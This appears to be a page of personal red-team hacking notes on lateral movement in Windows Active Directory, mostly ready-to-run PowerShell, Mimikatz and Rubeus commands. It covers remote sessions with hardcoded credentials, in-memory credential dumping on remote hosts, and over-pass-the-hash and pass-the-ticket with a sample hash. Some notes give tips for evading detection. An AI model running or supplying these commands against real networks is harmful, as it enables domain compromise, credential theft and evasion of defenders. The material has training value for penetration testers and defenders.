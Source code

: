 ```yaml
---
title: Lateral Movement
category: Active Directory
order: 3
---
```


# PowerShell Remoting

Once a machine is compromised, we need to jump to others in order to find more valuable targets. For that task we can use `PowerShell Remoting` which is increasingly used in enterprises and enabled by default on Server 2012 onwards. PowerShell Remoting uses WinRM protocol, so you can check `evil-winrm` tool. Admin privileges on the target machineis needed.

> **Note**: Maybe you need to enable remoting `Enable-PSRemoting` on a Desktop windows machine and Admin privs are required.

You can get a elevated shell (`NT AUTHORITY\SYSTEM`) on the remote server if the credentials of the user administrator are used to authenticate (default setting).

## Using Credentials

We can use other credentials:
```
$user='WORKGROUP\User'; 
$pass='passwd';
$cred = (New-Object System.Management.Automation.PSCredential $user,(ConvertTo-SecureString $pass -AsPlainText -Force))
```
And use it with the parameter `-Credential`

> **Note**: If password is not declared a prompt will be shown in order to enter manually.

## Creating a Session

There are two types of PowerShell Remoting:

* **One-to-One**: It is interactively login to another machine. Create a new session on the target machine so runs in a new process (wsmprovhost). 

```powershell
Enter-PSSession -ComputerName machine01.corp.local
Enter-PSSession -ComputerName machine01.corp.local -Credential $cred
Enter-PSSession -ComputerName machine01.corp.local -Credential corp\user
```
We can also first create the session and append to it later.

```powershell
$sess = New-PSSession -ComputerName machine01.corp.local
Enter-PSSession -Session $sess
```
> **Note**: We can put a session in background if the session is stored in a variable. Very useful.


* **One-to-Many**: It is also known as Fan-out remoting. It is a non-interactive shell but we can execute commands parallely. Is useful to run commmands and scripts on multiple remote computers, in disconnected sessions and as a background job.

```powershell
Invoke-Command -ComputerName machine01.corp.local -ScriptBlock {whoami;hostname}
Invoke-Command -ComputerName (Get-Content .\servers.txt)
Invoke-Command -ComputerName machine01.corp.local -FilePath .\file.ps1
```
> **Note**: One of the best things in PowerShell to do PassTheHash, using credentials and executing commands on multiple remote computers.

> **RedTeam Note**: Since admin privs are needed is a useful tool to check if the user has admin privs on the target machine.

## Execute locally loaded funcitons on the remote machine

We can execute locally loaded function on the remote machine.

```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content .\servers.txt)
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ArgumentList "-List hello" -ComputerName (Get-Content .\servers.txt)
```
## Load a script remotely

we can load a script remotely.

```powershell
Invoke-Command -FilePath .\hello.ps1 -Session $sess
Enter-PSSession -Session $sess

[machine01.corp.local]: PS C:\> hello
Hello World!
```
## Execute "Stateful" commands

We can execute "Stateful" commands.

```powershell
$sess = New-PSSession -ComputerName server1
Invoke-Command -Session $sess -ScriptBlock {$proc = Get-Process}
Invoke-Command -Session $sess -ScriptBlock {$proc.Name}
```

# Dump credentials

Once we have administrator privileges on the target machine we can dump credentials with `Invoke-Mimikatz`. See this section:

[https://mvc1009.github.io/hackingnotes/post-exploitation/get-credentials/](/hackingnotes/post-exploitation/get-credentials/).

To avoid save mimikatz on disk we need to load remotely.

```powershell
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
Invoke-Command -Session $sess -ScriptBlock {Invoke-Mimikatz -DumpCreds}
```
Or we can execute locally loaded functions.

```powershell
. .\Invoke-Mimikatz.ps1
Invoke-Command -Session $sess -ScriptBlock {function:Invoke-Mimikatz -DumpCreds}
```

# Over-Pass-the-Hash / Pass-The-Key

Abusing kerberos functionality we can execute commands as another user by only knowing the NTLM hash.

* Invoke-Mimikatz

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /usr:Administrator /domain:corp.local /ntlm:<ntlmhash> /run:powershell.exe"'
```

> **RedTeam Note**: There is a different in encryption type for timestamp between a normal `krb-as-req` and one using the Over-Pass-the-hash `krb-as-req`
> * Over-Pass-the-hash krb-as-req etype flag: `eTYPE-ARCFOUR-HMAC-MD5 (23)`
> * Normal krb-as-req etype flag: `eTYPE-AES256-CTS-HMAC-SHA1-96 (18)`
>
> To reduce the cahnces of detection use `aes256`, `aes128` and `NTLM(RC4)` together.

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:corp.local /aes256:<aes256> /aes128:<aes128> /ntlm:<ntlmhash> /run:powershell.exe"'
```

* Rubeus

```
.\Rubeus.exe asktgt /domain:dollarcorp.moneycorp.local /user:srvadmin /rc4:a98e18228819e8eec3dfa33cb68b0728 /ptt
```

# Pass-The-Ticket

We can use the tickets that are save to a `.kirbi` file. 

* Invoke-Mimikatz

```
Invoke-Mimikatz -Command '"kerberos::ptt ticket.kirbi"'
```

* Rubeus

```powershell
.\Rubeus.exe ptt /ticket:ticket.kirbi
```